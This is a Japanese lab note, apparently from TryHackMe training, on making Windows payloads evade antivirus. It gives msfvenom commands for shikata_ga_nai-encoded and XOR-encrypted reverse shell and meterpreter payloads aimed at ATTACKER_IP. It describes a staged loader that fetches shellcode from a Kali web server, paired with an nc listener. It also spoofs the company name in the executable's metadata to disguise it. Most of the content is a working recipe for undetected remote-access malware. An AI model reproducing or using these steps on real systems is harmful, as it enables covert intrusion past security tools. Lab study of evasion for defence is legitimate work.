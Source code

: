 ## AVに検知される奴

### エンコード
エンコーダーの一覧
```
$ msfvenom --list encoders | grep excellent
```

ペイロードの作成
```
$ msfvenom -a x86 --platform Windows LHOST=ATTACKER_IP LPORT=443 -p windows/shell_reverse_tcp -e x86/shikata_ga_nai -b '\x00' -i 3 -f csharp
```

### 暗号化
暗号一覧
```
$ msfvenom --list encrypt
```

ペイロードの作成
```
$ msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=ATTACKER_IP LPORT=7788 -f exe --encrypt xor --encrypt-key "MyZekr3tKey***" -o xored-revshell.exe
```

これらは単純過ぎて、Windows Defenderに検知される。

## AVに検知されない奴

ドキュメントにしたがい試してみたが、自分のPCのWindows11ではWindows Defenderに検知される。

- THMのwindows defenderの状況
```
PS C:\Users\thm> Get-MpComputerStatus | Select-Object -Property AMEngineVersion, AMProductVersion, AntispywareSignatureVersion

AMEngineVersion AMProductVersion AntispywareSignatureVersion
--------------- ---------------- ---------------------------
1.1.19500.2     4.18.2205.7      1.373.1336.0


PS C:\Users\thm> Get-MpComputerStatus | Select-Object -Property AntivirusSignatureLastUpdated

AntivirusSignatureLastUpdated
-----------------------------
9/1/2022 3:20:12 AM
```

- 自分のPC
```
PS C:\Users\hoge> Get-MpComputerStatus | Select-Object -Property AMEngineVersion, AMProductVersion, AntispywareSignatureVersion

AMEngineVersion AMProductVersion AntispywareSignatureVersion
--------------- ---------------- ---------------------------
1.1.24050.5     4.18.24050.7     1.413.487.0


PS C:\Users\hoge> Get-MpComputerStatus | Select-Object -Property AntivirusSignatureLastUpdated

AntivirusSignatureLastUpdated
-----------------------------
2024/06/24 13:51:20
```

## なので自分で作った検知されない奴

### 共通の下準備

#### ステージャーの作成

それぞれ、`mfsvenom`でペイロードを作成して、webサーバーに設置。共通のステージャー(hoge.cs)を使用する。
1. hoge.csを作成
2. Windows上でコンパイル
```
>C:\Windows\Microsoft.NET\Framework64\v4.0.30319\csc.exe hoge.cs
```
3. 出来上がった`hoge.exe`をやられ役のWindowsに配備

#### kaliでwebサーバーを起動
```
$ python -m http.server
```

### パターン1: 電卓起動(ステージャー型)

1. ペイロードの作成
```
$ msfvenom -a x64 --platform windows -p windows/x64/exec cmd=calc.exe -f raw -o a.html -b '\x00\x0a\x0d'\n
```

2. やられ役のWindows上で、hoge.exeを実行
```
>hoge.exe
```

![image](https://github.com/yokohama/thm/assets/1023421/f99c50cc-3053-43c8-ace7-9f04628b1c11)



### パターン2: リバースシェル(ステージャー型)

1. ペイロードの作成
```
$ msfvenom -a x64 -p windows/x64/shell_reverse_tcp LHOST=<Kali IP> LPORT=7474 -f raw -o b.html -b '\x00\x0a\x0d\'
```

2. やられ役のWindows上で、hoge.exeを実行(ペイロードURLをb.htmlに変更して)
```
>hoge.exe
```

3. Kaliで待ち受ける
```
$ nc -lvp 7474
```

![スクリーンショット 2024-06-25 131542](https://github.com/yokohama/thm/assets/1023421/4ba88b4f-dabe-42dd-b933-7238d0eb54d9)

### process explorerなどで見た時の会社名を加工する

1. RC(リソース・スクリプト(テキスト))_ファイルの作成

今回は会社名を加工したい。[こちら](https://github.com/yokohama/thm/blob/main/avevasionshellcode/task7/hoge.rc)を参照。

2. RCファイルをRES(リソース(バイナリ))ファイルに変換
- RCファイルをリソースコンパイラ (rc.exe) を使用して .res ファイルに変換する。RESファイルは、バイナリ形式のリソースデータを含むファイルで、アプリケーションの実行ファイルに組み込むためのリソース情報を格納する。
- いろいろ `\i` で、インクルードしないと実行できなかった。
```
>"C:\Program Files (x86)\Windows Kits\10\bin\10.0.22621.0\x64\rc.exe" /i"C:\Program Files (x86)\Windows Kits\10\Include\10.0.22621.0\um" /i"C:\Program Files (x86)\Windows Kits\10\Include\10.0.22621.0\shared" /fo"hoge.res" "hoge.rc"
```

3. RESファイルを使用してCSファイルをコンパイルし、EXEファイルを作成

- C# コンパイラ (csc.exe) を使用して、.cs ファイルと .res ファイルから実行可能ファイル .exe を生成。このステップでは、リソースファイルが実行ファイルに組み込まれ、最終的な製品に会社名やその他の情報を含めることができる。
```
>C:\Windows\Microsoft.NET\Framework64\v4.0.30319\csc.exe /out:hoge.exe /win32res:hoge.res hoge.cs
```


